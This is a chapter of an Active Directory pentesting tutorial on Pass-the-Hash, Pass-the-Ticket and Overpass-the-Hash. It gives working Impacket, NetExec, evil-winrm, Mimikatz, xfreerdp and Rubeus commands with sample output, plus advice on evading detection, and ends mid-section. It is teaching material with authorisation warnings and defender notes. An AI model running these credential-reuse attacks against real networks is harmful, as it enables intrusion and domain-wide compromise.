








This is Chapter 5 of the Active Directory attack notebook — Notebook 18. Chapter 1 established the assumed-breach mindset; Chapter 2 taught BloodHound as a way to *see* the domain as a graph; Chapter 3 taught manual enumeration; Chapter 4 showed how to harvest crackable credential blobs from Kerberos with Kerberoasting and AS-REP Roasting. That chapter ended with a cracked service-account *password*. This chapter answers a sharper question: what if you never crack anything at all?

The three attacks in this chapter — **Pass-the-Hash (PtH)**, **Pass-the-Ticket (PtT)** and **Overpass-the-Hash (OtH)**, also called *pass-the-key* — share one devastating idea. Windows authentication protocols do not, at the moment of authentication, care about your *password*. They care about a value *derived* from your password: an NT hash for NTLM, or a Kerberos key and the tickets built from it. If you can steal that derived value — from LSASS memory, from the local SAM, from the domain's NTDS.dit, or from a logon session's ticket cache — you can authenticate *as that user* without ever knowing, guessing, or cracking their password. The secret material *is* the credential.

The through-line is a single mechanism you already met in Chapter 4: **Windows never sends your cleartext password over the wire; it proves knowledge of a password-derived secret.** NTLM proves knowledge of the NT hash via a challenge/response. Kerberos proves knowledge of a long-term key by decrypting a timestamp and receiving tickets. In both cases, the *thing being proven* is exactly the thing an attacker steals during post-exploitation. Once you internalise that "the hash is the password" and "the ticket is the session," PtH, PtT and OtH stop being three tricks and become three faces of one truth — and Mimikatz, Rubeus and Impacket become interchangeable front-ends you can predict and swap.

Everything here operates on the authentication backbone of real organisations. Authorisation is non-negotiable: every command assumes an explicit, written, scoped engagement, or a lab you built yourself (Part 12 shows how). Reusing stolen credential material is precisely how ransomware crews turn one workstation into a domain-wide detonation, so treat these techniques with the seriousness the SOC on the other side treats them — and keep every command pointed at your own lab.

---

## Part 1: Why Credential Reuse Beats Cracking

In Chapter 4 you cracked a hash. Cracking is powerful, but it has costs: it needs GPU time, it fails against strong or random passwords (a 25-character gMSA password will never crack), and it only recovers the cleartext. Credential *reuse* sidesteps all of that. If the protocol will accept the hash or the ticket *directly*, you never need the cleartext at all.

Consider the three assets you can steal from a compromised Windows host and what each one unlocks:

| Stolen artifact | Where it lives | What you can do with it | Needs cracking? |
| --- | --- | --- | --- |
| **NT hash** (NTLM hash) | LSASS, local SAM, NTDS.dit | Pass-the-Hash over NTLM; Overpass-the-Hash to get a TGT | No |
| **Kerberos AES256/AES128 key** | LSASS (`sekurlsa::ekeys`), NTDS.dit | Overpass-the-Hash (stealthier than NT hash) | No |
| **Kerberos TGT** (ticket) | LSASS logon session, ccache file | Pass-the-Ticket — impersonate the user for the ticket's lifetime | No |
| **Kerberos TGS** (service ticket) | LSASS logon session, ccache file | Pass-the-Ticket to *one* service (e.g. CIFS/host) | No |
| **Cleartext / crackable hash** | Cracked offline, WDigest, keyboard | Anything, including interactive logon | Yes (or WDigest) |

The strategic point: **the NT hash is a password-equivalent for NTLM, and a Kerberos key is a password-equivalent for Kerberos.** An organisation can enforce a 30-character password policy, rotate every 30 days, and it changes nothing about PtH once the hash is out — the hash *is* accepted as proof. This is why PtH has survived since the 1990s and why Microsoft's mitigations focus on *stopping the theft* (Credential Guard, Protected Users) and *containing reuse* (LAPS, tiering), not on "fixing" NTLM to reject hashes — because rejecting the hash would mean rejecting the protocol.



**Where this sits in the kill chain.** These are *lateral movement* and *credential access* techniques (MITRE ATT&CK T1550.002 Pass-the-Hash, T1550.003 Pass-the-Ticket, T1558 Steal or Forge Kerberos Tickets). They assume you already have local administrator on *one* box — because dumping the material requires SYSTEM/admin. Chapter 6 (privilege escalation recaps) and the earlier exploitation notebook got you that first foothold; this chapter is about *turning one foothold into many* without ever typing a password into a login prompt.

---

## Part 2: The NT Hash From Absolute Zero

You cannot pass a hash you do not understand. Let us build the NT hash from nothing.

When a Windows account has a password, Windows stores a one-way transformation of it — never the cleartext (except legacy WDigest / reversible encryption, covered later). The modern local secret is the **NT hash**:

```
NT hash = MD4( UTF-16-LE( password ) )
```

That is the entire algorithm. Take the password, encode it as little-endian UTF-16, run MD4. No salt. No iteration. The absence of a salt is why two users with the same password have the *same* NT hash, and why rainbow tables and hash-identical detection work. You can reproduce it by hand:

```python
# nt_hash.py — compute an NT hash from a cleartext password
import hashlib

def nt_hash(password: str) -> str:
    # UTF-16-LE encode, then MD4 (provided by hashlib via OpenSSL legacy)
    return hashlib.new('md4', password.encode('utf-16-le')).hexdigest()

print(nt_hash("Password123!"))
# 2b576acbe6bcfda7294d6bd18041b8fe   (example)
```

On modern OpenSSL 3 you may need the legacy provider for MD4; `hashlib.new('md4', ...)` may raise `ValueError: unsupported hash type md4`. Fallback with pure-python or `passlib`:

```python
# pip install passlib
from passlib.hash import nthash
print(nthash.hash("Password123!"))
```

The NT hash is what you see on the **right** side of a dumped credential line. The canonical dumped format is:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
        |      |                  |                              |
     username RID          LM hash (dead)                    NT hash
```

Anatomy of that line, field by field:

| Field | Example | Meaning |
| --- | --- | --- |
| Username | `Administrator` | Local or domain account name |
| RID | `500` | Relative ID; 500 is always the built-in Administrator |
| LM hash | `aad3b435b51404eeaad3b435b51404ee` | The **empty/disabled** LM hash sentinel — this exact value means "no LM hash." Ignore it. |
| NT hash | `2b576acbe6bcfda7294d6bd18041b8fe` | The value you pass |
| Extra | `:::` | Unused (comment/homedir fields from the pwdump format) |

**The `aad3b435b51404eeaad3b435b51404ee` value is not a real hash** — it is the NT-hash-of-nothing sentinel that LM produces when LM hashing is disabled (it has been disabled by default since Windows Vista/Server 2008). When a tool asks for a hash in `LM:NT` format, you supply this sentinel for LM and the real NT hash, e.g. `-H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe`. Many tools also accept the NT half alone.

**Where NT hashes come from during a pentest** (all covered in earlier chapters or Chapter 6):

- **Local SAM** — `reg save HKLM\SAM`, then `secretsdump.py -sam SAM -system SYSTEM LOCAL`. Yields local accounts only.
- **LSASS memory** — Mimikatz `sekurlsa::logonpasswords`, or dumping `lsass.exe` and parsing offline. Yields hashes/keys/tickets of *anyone logged in since boot*.
- **NTDS.dit** (on a DC) — `secretsdump.py -just-dc` via DRSUAPI (DCSync). Yields every domain account's hash.
- **Kerberoast/AS-REP crack** (Chapter 4) — yields cleartext you can re-hash.

---

## Part 3: NTLM Authentication — Why a Hash Is Enough

To see *why* PtH works, watch NTLM authenticate. NTLM is a challenge/response protocol. The client never sends the password or even the hash across the wire — it proves it *knows* the NT hash by using it as a key.



The critical line: the client's response is computed as a keyed function (NTLMv2 uses HMAC-MD5 with a key chain rooted in the NT hash) over the server's challenge. **The only secret needed to compute a valid response is the NT hash.** The password is used only to *derive* the NT hash. So if you already hold the NT hash, you can skip the password entirely and still produce a valid response. That is Pass-the-Hash. There is no protocol "bug" — this is NTLM working exactly as designed. The design *assumes* the NT hash is a secret that never leaves the machine. Post-exploitation breaks that assumption.

NTLMv1 vs NTLMv2 matters for cracking (v1 is DES-weak, relevant to relay/`ntlmv1` downgrade attacks) but **not** for PtH — both are keyed by the NT hash, so both accept a passed hash. Whether the box speaks v1 or v2, your hash works.

**A subtlety that trips people up:** PtH works against services that accept **NTLM** authentication — SMB, WMI/DCOM, WinRM (Negotiate→NTLM), MSSQL (Windows auth), RDP with Restricted Admin mode. It does **not** work by pasting the hash into an interactive Windows login screen, and it does **not** directly authenticate to *Kerberos*-only services. For Kerberos you need Overpass-the-Hash (Part 6). Understanding this NTLM-vs-Kerberos split is the single most important conceptual boundary in this chapter.

---

## Part 4: Pass-the-Hash In Practice — The Toolkit From Scratch

Now the hands-on. We will authenticate to remote hosts using only an NT hash. Each tool is introduced from zero the first time it appears.

### 4.1 Impacket — what it is and how to install it

**Impacket** is a collection of Python classes for working with Windows network protocols (SMB, MSRPC, Kerberos, LDAP, DCOM) at the packet level, plus a set of ready-to-run example scripts that implement whole attacks. It is the de-facto standard for doing Windows lateral movement *from Linux* because it needs no domain join and no Windows box. It underpins half the tools in this notebook.

Install on Kali (it is usually preinstalled; install the current version cleanly with pipx):

```bash
# Kali: preferred modern install
sudo apt update && sudo apt install -y pipx
pipx install impacket
pipx ensurepath        # add ~/.local/bin to PATH
# or from source for latest:
git clone https://github.com/fortra/impacket.git
cd impacket && pipx install .
```

Verify the scripts are on PATH (names vary slightly by distro — sometimes prefixed `impacket-`):

```bash
which psexec.py wmiexec.py smbexec.py atexec.py secretsdump.py getTGT.py 2>/dev/null
impacket-psexec -h | head -5     # some distros install with impacket- prefix
```

Every Impacket example accepts a **`-hashes LMHASH:NTHASH`** flag. That flag is Pass-the-Hash. The universal target syntax is `domain/user@target`.

### 4.2 The Impacket execution scripts compared

Impacket ships several ways to get command execution on a remote host, each with a different footprint. Choosing between them is an opsec decision:

| Script | Mechanism | Creates service? | Touches disk? | Noise / detection |
| --- | --- | --- | --- | --- |
| `psexec.py` | Uploads a service binary via `ADMIN$`, registers & starts a Windows service | Yes | Yes (drops binary) | Loud — service creation (Event 7045), file write |
| `smbexec.py` | Creates a service that runs a per-command cmd, semi-interactive | Yes (per command) | Minimal | Medium — repeated service creation |
| `wmiexec.py` | Runs commands via WMI Win32_Process.Create, output over SMB | No | No binary | Quieter — WMI activity (Event 4688 + WMI logs) |
| `atexec.py` | Schedules a task (Task Scheduler over MSRPC) | No (uses schtasks) | No binary | Medium — Event 4698 task creation |
| `dcomexec.py` | DCOM (MMC20/ShellWindows) command execution | No | No binary | Quieter — DCOM activity |

**PtH with each** — same `-hashes` flag, same target syntax:

```bash
# psexec — full SYSTEM shell, but loudest
psexec.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@10.10.10.20

# wmiexec — quieter, semi-interactive, runs as the passed user (not SYSTEM)
wmiexec.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@10.10.10.20

# smbexec — service-based, minimal footprint on disk
smbexec.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@10.10.10.20

# atexec — one-shot command via scheduled task
atexec.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@10.10.10.20 "whoami /all"
```

Note the leading colon in `:NTHASH` — the empty LM field. You *can* write the sentinel `aad3b435b51404eeaad3b435b51404ee:NTHASH`; the empty LM is equivalent and cleaner.

Realistic `psexec.py` output:

```
$ psexec.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@10.10.10.20
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting shares on 10.10.10.20.....
[*] Found writable share ADMIN$
[*] Uploading file kFHtQwzy.exe
[*] Opening SVCManager on 10.10.10.20.....
[*] Creating service aBcD on 10.10.10.20.....
[*] Starting service aBcD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.3803]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

That "found writable share ADMIN$, uploading .exe, creating service" sequence is exactly what a defender's EDR flags. Prefer `wmiexec.py` when stealth matters — but note wmiexec runs as the passed user, so you get `contoso\administrator`, not `nt authority\system`.

### 4.3 NetExec (CrackMapExec's successor) — sweep at scale

**NetExec (`nxc`)** is the maintained fork of **CrackMapExec (`cme`)** — a swiss-army knife that runs a protocol action across *many* hosts at once. It is the fastest way to answer "where does this hash work?" — the core of lateral-movement triage.

```bash
pipx install netexec        # provides the `nxc` command
nxc --version
```

Spray one hash across a subnet to find every box where it grants admin:

```bash
# --local-auth if it's a LOCAL account hash; omit for a domain account
nxc smb 10.10.10.0/24 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe --local-auth
```

Realistic output — the `(Pwn3d!)` marker means admin access (PtH succeeded with admin rights):

```
SMB  10.10.10.20  445  WS01  [*] Windows 10 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:False)
SMB  10.10.10.20  445  WS01  [+] WS01\Administrator 2b576acb...b8fe (Pwn3d!)
SMB  10.10.10.21  445  WS02  [+] WS02\Administrator 2b576acb...b8fe (Pwn3d!)
SMB  10.10.10.22  445  WS03  [-] WS03\Administrator 2b576acb...b8fe STATUS_LOGON_FAILURE
```

Two boxes share the hash → **local-admin password reuse**, the classic PtH accelerator. This single command demonstrates why LAPS (unique local-admin passwords per machine) exists. From here, `nxc` can run commands, dump SAM, or spider shares on every `Pwn3d!` host:

```bash
nxc smb 10.10.10.20-21 -u Administrator -H 2b576acb...b8fe --local-auth -x "whoami"
nxc smb 10.10.10.20    -u Administrator -H 2b576acb...b8fe --local-auth --sam
```

**Red team usage:** `nxc ... --sam` on a `Pwn3d!` host dumps that box's local hashes → new material → repeat. **Blue team usage:** a single source IP authenticating to many hosts with the same account in seconds is a textbook lateral-movement signature; nxc's default behaviour is deliberately noisy.

### 4.4 evil-winrm — PtH over WinRM

**evil-winrm** is a Ruby WinRM shell built for pentesting — the go-to for a stable interactive PowerShell session when port 5985/5986 is open and your account is in **Remote Management Users**.

```bash
gem install evil-winrm    # or: use the Kali package
evil-winrm -i 10.10.10.20 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe
```

```
Evil-WinRM shell v3.5
[+] Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
ws01\administrator
```

The `-H` flag is PtH over WinRM. This is the single most common way HackTheBox/TryHackMe Windows boxes are rooted after a hash is recovered.

### 4.5 Mimikatz sekurlsa::pth — PtH from Windows

**Mimikatz** is *the* Windows credential-manipulation tool (you will meet its dumping side in Chapter 6). Its `sekurlsa::pth` command performs PtH *from a Windows attacker box* by starting a new process whose logon session is patched to use the supplied NT hash. You get a new `cmd`/`powershell` that authenticates *outbound* as the target user.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:Administrator /domain:CONTOSO /ntlm:2b576acbe6bcfda7294d6bd18041b8fe /run:powershell.exe
user    : Administrator
domain  : CONTOSO
program : powershell.exe
impers. : no
NTLM    : 2b576acbe6bcfda7294d6bd18041b8fe
  |  PID  6144
  |  TID  6148
  |  LSA Process was successfully patched
```

Flags explained:

| Flag | Meaning |
| --- | --- |
| `/user:` | Username to impersonate |
| `/domain:` | Domain (or the local machine name for a local account) |
| `/ntlm:` | The NT hash to inject |
| `/aes256:` | Inject an AES256 key instead (stealthier — see Part 6) |
| `/run:` | Program to launch under the patched session (default `cmd`) |

The spawned PowerShell shows *your* username locally (`whoami` = your original user) but authenticates to the network as `CONTOSO\Administrator`. From it, `dir \\dc01\c$` or `Enter-PSSession` uses the injected hash. This is the Windows-native equivalent of `impacket -hashes`.

### 4.6 RDP with the hash — Restricted Admin mode

Normally you cannot PtH into RDP. But **Restricted Admin mode** (introduced to *protect* credentials) ironically enables it: it uses network-level auth without sending a password, so a hash suffices.

```bash
# Linux, using xfreerdp (v2) — note /pth
xfreerdp /u:Administrator /pth:2b576acbe6bcfda7294d6bd18041b8fe /v:10.10.10.20 +restricted-admin
# xfreerdp3 syntax:
xfreerdp3 /u:Administrator /pth:2b576acb...b8fe /v:10.10.10.20 /restricted-admin
```

Restricted Admin must be enabled on the target (`DisableRestrictedAdmin=0`). If it is off, you can enable it from a SYSTEM shell you already have, but that itself is a detectable registry change (`HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin`).

---

## Part 5: Kerberos Refresher — Tickets, Keys, and Why PtT/OtH Exist

NTLM is dying; modern domains prefer Kerberos, and many hardened environments disable NTLM outright (making PtH fail). To move in those environments you attack Kerberos directly. First, a tight refresher (Chapter 4 built this in full).



Two secrets matter to an attacker here:

1. **The client long-term key.** Derived from the password — for RC4 it *is* the NT hash; for AES it is a PBKDF2-derived AES128/AES256 key salted with the realm+username. This key encrypts the AS-REQ pre-auth timestamp and is what the KDC uses to encrypt the TGT session key back to you. **If you hold this key, you can complete the AS exchange and obtain a real, valid TGT — that is Overpass-the-Hash.**
2. **The tickets themselves.** A **TGT** is a bearer token: whoever presents it (with its session key) *is* that user to the KDC until it expires (default 10 hours, renewable 7 days). A **TGS** is a bearer token for one specific service. **If you steal a ticket from a logon session, you can inject it into your own session and reuse it — that is Pass-the-Ticket.**

The elegant distinction:

- **Pass-the-Hash** → NTLM only, uses the NT hash directly against NTLM services.
- **Overpass-the-Hash / pass-the-key** → use the NT hash (or AES key) to *request a Kerberos TGT*, then move over Kerberos. It "over-passes" the hash by converting it into a ticket.
- **Pass-the-Ticket** → skip the key entirely; steal and replay an *already-issued* ticket.



---

## Part 6: Overpass-the-Hash (Pass-the-Key) In Practice

Overpass-the-Hash turns a hash/key into a ticket. Two front-ends: Rubeus (Windows) and Impacket's `getTGT.py` (Linux).

### 6.1 Rubeus — what it is and how to get it

**Rubeus** is a C# toolkit for raw Kerberos interaction on Windows — the offensive counterpart to the built-in `klist`. It does AS-REQ/TGS-REQ by hand, so it can roast, overpass, pass tickets, and forge. You compile it from source (Visual Studio) or drop a prebuilt binary; on an engagement it typically runs in-memory via your C2. Introduced from scratch here because it is central to PtT/OtH.

Request a TGT from an NT hash (RC4) — classic OtH:

```
C:\> Rubeus.exe asktgt /user:Administrator /domain:contoso.local /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

[*] Action: Ask TGT
[*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
[*] Building AS-REQ (w/ preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIF...<snip>...==
[+] Ticket successfully imported!
```

Flags:

| Flag | Meaning |
| --- | --- |
| `/user:` `/domain:` | Principal requesting the TGT |
| `/rc4:` | NT hash used as the RC4 Kerberos key (loud — see opsec below) |
| `/aes256:` | AES256 key instead (stealthy — matches modern default etype) |
| `/ptt` | "Pass-the-ticket": inject the resulting TGT into the current logon session immediately |
| `/nowrap` | Print the base64 ticket without line-wrapping (easier to copy) |
| `/ptt` vs no `/ptt` | With `/ptt`, use immediately; without, you get a `.kirbi` blob to inject later |

**The opsec crux — RC4 vs AES.** Requesting a TGT with `/rc4:` produces an AS-REQ with encryption type **`rc4_hmac` (etype 23)**. In a modern AES-capable domain, real clients request **AES (etype 17/18)**. So an RC4 AS-REQ from a normal user is anomalous and is a top Kerberoast/OtH detection (an "encryption downgrade"). If you can dump the **AES256 key** (Mimikatz `sekurlsa::ekeys`), pass *that* instead — it blends in:

```
C:\> Rubeus.exe asktgt /user:Administrator /domain:contoso.local /aes256:5c...e9 /ptt
[*] Using aes256_cts_hmac_sha1 hash: 5c...e9
[+] TGT request successful!
```

**Rule of thumb: prefer AES keys over NT hashes for OtH whenever you have them.** The NT hash still works, but it is the noisy path.

Mimikatz can do OtH too — `sekurlsa::pth` with an AES key and `/ptt` requests a TGT and injects it in one step:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:contoso.local /aes256:5c...e9 /run:powershell.exe
```

### 6.2 Impacket getTGT.py — OtH from Linux

`getTGT.py` performs the AS exchange from Linux and writes a **ccache** file (the MIT/Heimdal ticket format Impacket and Linux Kerberos tools use).

```bash
# From an NT hash (RC4):
